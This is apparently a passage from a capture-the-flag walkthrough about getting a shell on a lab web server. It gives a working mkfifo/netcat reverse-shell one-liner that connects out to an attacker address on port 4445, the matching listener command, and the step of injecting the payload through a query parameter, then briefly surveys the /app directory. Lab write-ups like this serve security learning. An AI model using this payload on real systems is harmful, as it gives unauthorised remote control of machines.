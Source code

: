 ```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.50.111.248 4445 >/tmp/f

```
- Set up nc listener:

```bash
rlwrap -cAr nc -lvnp 4445

```
- Paste it into the query parameter:

![image39](../resources/d4984035cdec4af39bc0959ba694dc8a.png)

- And shell:

![image40](../resources/e0a8421441444241ba0775e4b4b4ab24.png)

- The machine doesn't have anything to exploit like SUID or sudo

- But the shell drops us in the /app directory - the only directory that has anything in

- We can now see the auth.php file in /app/public/auth.php
